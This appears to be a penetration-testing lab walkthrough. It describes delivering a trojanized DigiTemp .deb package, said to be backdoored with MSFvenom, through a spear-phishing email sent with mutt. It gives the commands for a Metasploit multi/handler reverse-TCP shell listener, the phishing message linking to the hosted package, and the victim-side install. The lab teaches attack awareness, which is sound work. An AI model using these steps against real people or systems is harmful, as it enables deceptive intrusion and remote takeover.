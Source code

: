 Real-life examples show that even the strongest technical security controls can be easily compromised by exploiting the weakest link: people. Actions like inserting an unauthorized USB drive into a workstation (as seen with Stuxnet) or opening a suspicious email attachment (as in the case of BlackEnergy) can provide attackers with the entry point they need to breach system infrastructure.

A malicious installer has been created using DigiTemp, a utility for reading values (mainly temperature) from 1-wire devices. A Trojan backdoor has been inserted into it using _MSFvenom_, a payload builder within the _Metasploit Framework_.

Note that the program itself is not inherently vulnerable.

To make the malicious package available for download via a web browser, it has been placed in the Apache server's webroot folder _/var/www/html_.

To start the Apache server, run the following command:
`service apache2 start`
# Starting Metasploit Framework

_MSFconsole_ is a command-line interface for the Metasploit Framework, an open-source security framework for penetration testing and vulnerability assessment. The Metasploit Framework is a collection of tools, modules, and libraries that can be used to test the security of systems and applications, and MSFconsole is one of the key components of the framework.

We will be setting up a listener to wait for incoming connections using a Metasploit exploit module.
To initiate Metasploit, enter the following command:
`msfconsole`
### Selecting Module

_The Generic Payload Handler_ provides all of the features of the Metasploit payload system to exploits launched outside of the framework.
To select the handler module, use the following command:
`use exploit/multi/handler`

To display the options for the handler module, use the following command:
`options`

Two settings are listed, of which both are required. Note that only LHOST is empty.
Configure the module to listen on the localhost IP:
`set LHOST 127.0.0.1`

Specify a new port number for the listener:
`set LPORT 443`

Specify the payload that must be sent to the target once they connect to the listener. Select the reverse TCP command shell payload as follows:
`set PAYLOAD linux/x86/shell/reverse_tcp`

Start the listener by entering the exploit.
`exploit`
# Sending Phishing Email

For this attack, it is necessary to send a spear-phishing email that contains a download link.

Open a new terminal to send a phishing email.

_Postfix_ is a widely used _Mail Transfer Agent (MTA)_ on Linux systems. It is a powerful and dependable mail server capable of handling large volumes of email traffic. However, to utilize Postfix to send and receive emails, the Postfix server must be running on the system.
`service postfix start`

Once enabled, the Postfix service listens on the SMTP port (port 25) and is ready to receive incoming email messages.

To send an invitation to download a utility from a website, run the following command:
`echo "This utility is very useful. Download from <a href="http://192.168.1.100/digitemp.deb">here</a>." | mutt ‑e "set content_type=text/html" ‑s "Digitemp Download" ‑‑ root@192.168.1.100`

The -e option is used to set the content type of the email to HTML.
The -s option is used to set the subject of the email.
### Checking Email

_Mutt_ is a command-line email client for Unix-based systems, designed for terminal/console environments. It supports various email protocols, including POP3, IMAP, and SMTP.

Mutt allows users to manage their email entirely from the command line, with a built-in editor for composing messages and features for filtering, sorting, and searching emails based on multiple criteria.

To read the email using Mutt, enter the following command:
`mutt`

When prompted, press _enter_ to create the _/root/Mail_ directory.
# Reading Email

> Note: It is crucial to follow the instructions carefully in this step and the next.

The received email should be visible in the inbox. Press _Enter_ to open it.
Next, press _v_ to view the attachment and _enter_ to open it.

The phishing email will display the download link. Press _CTRL + B_ to click on it, then press _enter twice_.

This will open the URL in your default browser. Choose _Save File_ and click _OK_ to download the file.

### Installing Package

_dpkg_ is the Debian Package Manager, a command-line tool used to install, remove, and manage packages on Debian-based systems. The dpkg tool is responsible for unpacking and installing individual package files in the .deb format.

Navigate to the Downloads directory where the downloaded file is located.

cd /root/Downloads

Afterwards, attempt to install the downloaded digitemp.deb package:

sudo dpkg -i digitemp.deb

The -i option stands for install.

The output indicates that the package was installed successfully
